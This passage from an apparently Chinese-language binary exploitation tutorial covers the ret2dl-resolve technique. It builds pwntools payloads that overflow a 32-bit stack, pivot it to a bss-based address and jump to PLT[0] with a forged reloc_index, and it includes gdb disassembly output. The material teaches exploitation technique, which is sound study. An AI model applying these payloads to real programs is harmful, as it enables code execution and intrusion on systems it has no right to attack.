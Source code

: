 分别获取伪造各种表所需要的段地址，将 bss 段的地址加上 0x600 作为伪造数据的基地址，这里可能需要根据实际情况稍加修改。gadget pppr 用于平衡栈， pop ebp 和 leave ret 配合，以达到将 esp 指向 base_addr 的目的（在章节3.3.4中有讲到）。

第一部分的 payload 如下所示，首先从标准输入读取 100 字节到 base_addr，将 esp 指向它，并跳转过去，执行 base\_addr 处的 payload：

```python
payload_1  = "A" * 112
payload_1 += p32(read_plt)
payload_1 += p32(pppr_addr)
payload_1 += p32(0)
payload_1 += p32(base_addr)
payload_1 += p32(100)
payload_1 += p32(pop_ebp_addr)
payload_1 += p32(base_addr)
payload_1 += p32(leave_ret_addr)

io.send(payload_1)
```

从这里开始，后面的 paylaod 都是通过 read 函数读入的，所以必须为 100 字节长。首先，调用 write@plt 函数打印出与 base_addr 偏移 80 字节处的字符串 "/bin/sh"，以验证栈转移成功。注意由于 `.dynstr` 中的字符串都是以 `\x00` 结尾的，所以伪造字符串为 `bin/sh\x00`。

```python
payload_2  = "AAAA"     # new ebp
payload_2 += p32(write_plt)
payload_2 += "AAAA"
payload_2 += p32(1)
payload_2 += p32(base_addr + 80)
payload_2 += p32(len("/bin/sh"))
payload_2 += "A" * (80 - len(payload_2))
payload_2 += "/bin/sh\x00"
payload_2 += "A" * (100 - len(payload_2))

io.sendline(payload_2)
print io.recv()
```

我们知道第一次调用 write@plt 时其实是先将 reloc_index 压入栈，然后跳转到 PLT[0]：

```text
gdb-peda$ disassemble write
Dump of assembler code for function write@plt:
   0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a01c
   0x08048436 <+6>:     push   0x20
   0x0804843b <+11>:    jmp    0x80483e0
End of assembler dump.
```

这次我们跳过这个过程，直接控制 `eip` 跳转到 PLT[0]，并在栈上布置上 reloc_index，即 `0x20`，就像是调用了 write@plt 一样。

```python
reloc_index = 0x20

payload_3  = "AAAA"
payload_3 += p32(plt_0)
payload_3 += p32(reloc_index)
payload_3 += "AAAA"
payload_3 += p32(1)
payload_3 += p32(base_addr + 80)
payload_3 += p32(len("/bin/sh"))
payload_3 += "A" * (80 - len(payload_3))
payload_3 += "/bin/sh\x00"
payload_3 += "A" * (100 - len(payload_3))

io.sendline(payload_3)
print io.recv()
```
